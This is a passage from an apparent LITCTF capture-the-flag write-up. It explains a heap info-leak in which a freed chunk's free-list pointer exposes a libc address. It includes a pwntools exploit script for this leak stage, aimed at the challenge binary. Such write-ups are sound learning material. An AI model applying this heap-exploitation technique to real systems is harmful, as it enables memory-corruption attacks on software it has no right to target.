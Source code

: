 Now when we `del()` the `1st chunk` which is 0x3ff it will store its `free list` pointer inside the first chunk:

![Screenshot](/static/writeups/litctf/3.png)

now when we print the content of first chunk which is `0th` index we will get the `libc leak` :

```python
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
elf = context.binary = ELF("./main_patched")
rop = ROP(elf)
libc = elf.libc

p = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process(["./ld-linux-x86-64.so.2", "--library-path", ".", "./main_patched"], aslr=True)

if args.GDB: gdb.attach(p, """
    brva 0x469b0
    """)

encode = lambda e: e if type(e) == bytes else str(e).encode()
sl  = lambda d: p.sendline(d)
sa  = lambda m, d: p.sendafter(m, d)
sla = lambda m, d: p.sendlineafter(m, d)
s   = lambda d: p.send(d)
ru  = lambda d: p.recvuntil(d)
rl  = lambda: p.recvline()

def menu(opt):
    sla(b">  ",encode(opt))

def create(idx,size):
    menu(1)
    sla(b">  ",encode(idx))
    ru(b"?")
    sla(b">  ",encode(size))
def free(idx):
    menu(2)
    ru(b"dx?")
    sla(b">  ",encode(idx))
def view(idx):
    menu(3)
    ru(b"dx?")
    sla(b">  ",encode(idx))
def edit(idx, content):
    menu(4)
    ru(b"dx?")
    sla(b">  ", encode(idx))
    sl(content)

create(0,0x20)
create(1,0x3ff)
free(1)
view(0)
ru(b" content: ")

mound = fixleak(rl()) - 0x238
log.info(f"mound => {hex(mound)}")
libc.address = mound +  0x12000 - 0x2000
log.info(f"libc => {hex(libc.address)}")
```

